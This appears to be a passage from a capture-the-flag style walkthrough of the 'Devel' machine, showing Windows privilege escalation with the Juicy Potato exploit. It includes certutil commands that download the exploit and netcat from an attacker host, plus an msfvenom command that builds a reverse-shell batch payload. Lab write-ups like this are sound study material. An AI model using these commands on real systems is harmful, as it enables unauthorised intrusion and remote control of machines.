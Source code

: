 - we create new directory `c:\Windows\Temp\scripts` so we can transfer or potato exploit
[https://github.com/ivanitlearning/Juicy-Potato-x86/releases](https://github.com/ivanitlearning/Juicy-Potato-x86/releases)

- we can import the file using the command
`certutil.exe -urlcache -split -f http://10.10.14.11/JuicyPotato.exe JuicyPotato.exe`

![](assets/Devel_assets/Pasted%20image%2020230616141953.png)

- we can view the help page of the exploit using the `-h` flag

![](assets/Devel_assets/Pasted%20image%2020230616142022.png)

- so for us to run the exploit we also need a CLSID, we can find some at [https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_7_Enterprise](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_7_Enterprise), we can try different ones to know which succeeds
- for this exploit we need to import the netcat executable `certutil.exe -urlcache -split -f http://10.10.14.11/nc.exe nc.exe` for the x86 architechture

- For the potato exploit we also have to create a bat file that is a reverse shell using the command `msfvenom -p cmd/windows/reverse_powershell LHOST=10.10.14.11 LPORT=9003  > priv.bat`

![](assets/Devel_assets/Pasted%20image%2020230616144533.png)
